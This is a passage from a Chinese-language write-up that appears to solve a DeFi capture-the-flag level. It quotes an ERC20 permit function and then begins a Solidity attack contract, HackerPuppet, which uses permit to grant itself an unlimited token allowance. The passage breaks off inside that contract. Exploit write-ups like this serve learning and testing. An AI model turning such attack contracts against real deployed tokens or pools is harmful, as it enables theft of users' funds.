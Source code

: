 ```solidity

        // Unchecked because the only math done is incrementing
        // the owner's nonce which cannot realistically overflow.
        unchecked {
            address recoveredAddress = ecrecover(
                keccak256(
                    abi.encodePacked(
                        "\x19\x01",
                        DOMAIN_SEPARATOR(),
                        keccak256(
                            abi.encode(
                                keccak256(
                                    "Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)"
                                ),
                                owner,
                                spender,
                                value,
                                nonces[owner]++,
                                deadline
                            )
                        )
                    )
                ),
                v,
                r,
                s
            );

            require(recoveredAddress != address(0) && recoveredAddress == owner, "INVALID_SIGNER");

            allowance[recoveredAddress][spender] = value;
        }

        emit Approval(owner, spender, value);
```

通过组合检查用户签名等同于`Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)...`可以实现代授权功能，这个感觉有点危险。。

那就写攻击合约吧:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "hardhat/console.sol";

contract HackerPuppet {

    using Address for address;

    constructor(address token,
                address pool,
                address swap,
                uint8 v, bytes32 r, bytes32 s,
                uint256 playerToken,
                uint256 poolToken) payable {
        token.functionCall(abi.encodeWithSignature(
            "permit(address,address,uint256,uint256,uint8,bytes32,bytes32)",
            msg.sender,
            address(this),
            type(uint256).max,
```